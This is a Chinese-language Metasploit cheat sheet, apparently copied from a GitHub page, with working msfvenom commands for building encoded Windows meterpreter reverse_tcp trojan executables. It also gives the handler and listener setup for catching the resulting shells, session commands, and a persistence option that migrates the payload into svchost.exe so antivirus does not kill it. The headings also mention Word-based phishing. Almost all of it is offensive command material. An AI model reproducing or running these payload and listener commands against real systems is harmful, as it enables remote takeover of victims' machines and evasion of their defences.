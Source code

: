 word钓鱼

web_delivery

## MSF PAYLOAD模块

•msfvenom是msfpayload和msfencode的结合体，于2015年6月8日取代了msfpayload和msfencode。在此之后，metasploit-framework下面的的msfpayload（荷载生成器），msfencoder（编码器），msfcli（监听接口）都不再被支持。

**payload参数：**

~~~~markdown
a. -p：指定payload，一般用 windows/meterpreter/reverse_tcp 比较多
b. -e：指定要用的编码器，一般用 shikata_ga_nai ，其他的都不太好用
c. -i：指定编码次数，后面跟数字，如：-i 8
d. -b：设定规避字符集，指定需要过滤的坏字符，如：'\x0f'、'\x00'
e. -f：指定输出格式，如：-f exe
f. -o：指定生成文件存放位置，也可用>代替
g. -l：列出指定模块的所有可用资源
h. -a：指定payload的目标架构，如x86，x64，x86_64，默认为32位程序
i. -s：设定payload的最大长度，即文件大小
j. --platform：指定payload的目标平台，如windows，linux
k. 其余参数可用 -h 查看
例子：msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP>
lport=<port> -f exe -o payload.exe
~~~~

## **建立监听**

~~~~markdown
1. 常规监听
    msfconsole：进入msf控制台
    use exploit/multi/handler：使用模块
    set payload windows/meterpreter/reverse_tcp：设置payload
        set lhost <ip>：设置要侦听的ip
    	set lport <port>：设置要侦听的端口
    	options：查看设置详情）
   	 	run或exploit
2. 快速监听：默认持续侦听
    msfconsole：进入msf控制台
    handler -H <ip> -P <port> -p <payload>
3.  其他
	exploit -j -z：后台持续监听，-j是后台任务，-z是持续监听，使用jobs查看和管理
	jobs -K可结束所有任务。
	sessions -l：查看我的会话
	sessions -i 1：调用我的1号会话
~~~~

~~~~markdown
payload可持续化：
 因为生成木马反弹payload后容易被杀死，而手动迁移进程的
migrate有一个操作间隔，所以可以在生成payload时就加上进程迁移，
即生成木马时加上：
PrependMigrate=true 
PrependMigrateProc=svchost.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o  shell.exe

~~~~
